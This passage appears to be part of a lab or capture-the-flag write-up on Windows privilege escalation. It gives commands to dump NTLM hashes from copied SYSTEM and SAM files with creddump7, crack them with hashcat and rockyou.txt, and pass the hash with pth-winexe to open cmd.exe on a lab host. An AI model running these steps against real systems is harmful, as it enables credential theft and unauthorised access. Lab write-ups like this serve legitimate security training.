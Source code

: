 copy the two files to ur kali

![copy](image-15.png)

with 

![creddump7](image-16.png)

```bash
creddump7
python pwdump.py ~/Path/To/SYSTEM ~/Path/To/SAM
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```

## Pass The hash

we can use `pth-winexe` with the hash we found earlier to do pass the hash

```bash
pth-winexe -U 'admin%hash' //10.10.78.130 cmd.exe
```

![pth](image-17.png)
